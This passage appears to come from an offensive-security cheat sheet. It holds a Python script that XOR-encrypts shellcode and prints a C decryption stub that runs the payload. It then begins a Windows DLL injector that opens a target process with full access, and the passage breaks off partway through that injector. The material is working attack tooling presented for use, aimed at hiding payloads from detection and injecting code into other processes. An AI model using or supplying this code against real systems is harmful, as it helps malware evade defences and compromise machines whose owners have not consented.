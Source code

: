### Payload Encryption

#### Custom XOR Encoder
```python
#!/usr/bin/env python3

def xor_encrypt(data, key):
    """XOR encrypt/decrypt data with key"""
    encrypted = bytearray()
    key_len = len(key)
    
    for i, byte in enumerate(data):
        encrypted.append(byte ^ key[i % key_len])
    
    return bytes(encrypted)

# Original shellcode
shellcode = b"\xfc\x48\x83\xe4\xf0\xe8..."

# Encryption key
key = b"MySecretKey123"

# Encrypt
encrypted = xor_encrypt(shellcode, key)

# Generate C code
print("unsigned char encrypted[] = {")
for i in range(0, len(encrypted), 16):
    chunk = encrypted[i:i+16]
    hex_str = ", ".join(f"0x{b:02x}" for b in chunk)
    print(f"    {hex_str},")
print("};")

# Decryption stub
print("\n// Decryption in C:")
print("unsigned char key[] = \"MySecretKey123\";")
print("for (int i = 0; i < sizeof(encrypted); i++) {")
print("    encrypted[i] ^= key[i % sizeof(key) - 1];")
print("}")
print("((void(*)())encrypted)();  // Execute")
```

### Process Injection

#### DLL Injection
```c
// injector.c
#include <windows.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Usage: %s <PID> <DLL_PATH>\n", argv[0]);
        return 1;
    }
    
    DWORD pid = atoi(argv[1]);
    char *dll_path = argv[2];
    
    // Open target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        printf("[-] Failed to open process\n");
```